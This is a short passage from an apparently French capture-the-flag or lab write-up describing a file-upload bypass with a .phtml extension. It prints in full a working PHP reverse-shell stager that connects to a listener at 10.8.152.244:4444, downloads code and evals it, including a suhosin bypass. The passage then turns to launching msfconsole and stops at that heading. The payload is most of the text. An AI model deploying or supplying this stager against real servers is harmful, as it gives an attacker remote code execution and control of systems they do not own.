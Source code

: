 ![image-20210114234754688](img/image-20210114234754688.png)

Il semblerai que le .phtml passe!

Reverse shell injecté:

```php
/*<?php /**/ error_reporting(0); $ip = '10.8.152.244'; $port = 4444; if (($f = 'stream_socket_client') && is_callable($f)) { $s = $f("tcp://{$ip}:{$port}"); $s_type = 'stream'; } if (!$s && ($f = 'fsockopen') && is_callable($f)) { $s = $f($ip, $port); $s_type = 'stream'; } if (!$s && ($f = 'socket_create') && is_callable($f)) { $s = $f(AF_INET, SOCK_STREAM, SOL_TCP); $res = @socket_connect($s, $ip, $port); if (!$res) { die(); } $s_type = 'socket'; } if (!$s_type) { die('no socket funcs'); } if (!$s) { die('no socket'); } switch ($s_type) { case 'stream': $len = fread($s, 4); break; case 'socket': $len = socket_read($s, 4); break; } if (!$len) { die(); } $a = unpack("Nlen", $len); $len = $a['len']; $b = ''; while (strlen($b) < $len) { switch ($s_type) { case 'stream': $b .= fread($s, $len-strlen($b)); break; case 'socket': $b .= socket_read($s, $len-strlen($b)); break; } } $GLOBALS['msgsock'] = $s; $GLOBALS['msgsock_type'] = $s_type; if (extension_loaded('suhosin') && ini_get('suhosin.executor.disable_eval')) { $suhosin_bypass=create_function('', $b); $suhosin_bypass(); } else { eval($b); } die();
```



Ok, maintenant nous avons plus qu'à lancer msfconsole en mode super utilisateur.

##### **<u>3. MSFCONSOLE</u>**
